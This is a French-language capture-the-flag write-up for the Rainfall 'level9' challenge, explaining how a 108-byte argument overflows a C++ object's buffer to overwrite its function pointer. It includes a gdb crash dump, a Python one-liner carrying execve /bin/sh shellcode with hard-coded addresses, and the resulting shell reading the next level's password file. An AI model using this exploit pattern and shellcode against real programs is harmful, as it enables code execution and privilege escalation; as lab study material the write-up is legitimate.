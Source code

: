 ﻿Dans ce niveau, on a ce qui s'apparente a du C++ compile.

On voit qu'il y a une classe `N` qui a une methode `operator+` et `operator-`, un pointeur sur fonction, un nombre et une chaine de charactere
A priori en terme de structure on a quelque chose comme cela:
```c
struct {
   int nb;// 4 bytes
   char annotation[100];// 4 bytes
   int (N::*func)(N&);   // 4 bytes
} N;                    // 108 bytes
```

```bash
[----------------------------------registers-----------------------------------]
EAX: 0x2d2d2d2d ('----')
EBX: 0x804ec20 ("----")
ECX: 0x2d2d2d2d ('----')
EDX: 0x804ec24 --> 0x0
ESI: 0xffffd144 --> 0xffffd2b9 ("/mnt/c/Users/Remi/Downloads/Rainfall_execs/level9")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0xffffd088 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0
ESP: 0xffffd060 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:       push   ebp)
EIP: 0x8048682 (<main+142>:     mov    edx,DWORD PTR [eax])
EFLAGS: 0x10287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048677 <main+131>:        call   0x804870e <_ZN1N13setAnnotationEPc>
   0x804867c <main+136>:        mov    eax,DWORD PTR [esp+0x10]
   0x8048680 <main+140>:        mov    eax,DWORD PTR [eax]
=> 0x8048682 <main+142>:        mov    edx,DWORD PTR [eax]
   0x8048684 <main+144>:        mov    eax,DWORD PTR [esp+0x14]
   0x8048688 <main+148>:        mov    DWORD PTR [esp+0x4],eax
   0x804868c <main+152>:        mov    eax,DWORD PTR [esp+0x10]
   0x8048690 <main+156>:        mov    DWORD PTR [esp],eax
[------------------------------------stack-------------------------------------]
0000| 0xffffd060 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:      push   ebp)
0004| 0xffffd064 --> 0xffffd2eb ("aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz0000----")
0008| 0xffffd068 --> 0xf7fbf8e0 --> 0xf7b6dcc6 ("GLIBC_PRIVATE")
0012| 0xffffd06c --> 0x1
0016| 0xffffd070 --> 0x804ec20 ("----")
0020| 0xffffd074 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:      push   ebp)
0024| 0xffffd078 --> 0x804ec20 ("----")
0028| 0xffffd07c --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:      push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08048682 in main ()
gdb-peda$
```

Avec une entree de 108 characteres, on voit que le programme crash lorsqu'il essaie de faire un `mov edx, DWORD PTR [eax]`
C'est du au fait que lorsqu'on copie les 108 characteres de `argv[1]`, on ecrase le pointeur sur fonction de la classe 2.  
Ainsi on peut ecrire du shellcode dans `argv[1]` qui sera ensuite copie dans le buffer de la classe 2.  
Et ensuite a la fin de la chaine on met l'addresse de notre shellcode pour que le pointeur sur fonction pointe dessus.  
Il faut noter une chose aussi, c'est que l'addresse a mettre dans `edx` est un pointeur vers l'addresse de la fonction a executer.  
Ainsi on mets au bout l'addresse du debut du buffer, et au debut du buffer on mets l'addresse du shellcode qui se trouve juste apres.
Quelque chose du genre:
```
buffer:   [ADDR_SHELLCODE] [SHELLCODE] [...PLACEHOLDER...] [ADDR_FN]
bytes:            4             28        (108 - 28 - 4)       4
```

```bash
level9@RainFall:~$ ./level9 $(python -c 'sc_addr = "\x10\xa0\x04\x08"; sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print sc_addr + sc + "\x42"*(108-len(sc)-len(sc_addr)) + "\x0c\xa0\x04\x08"')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```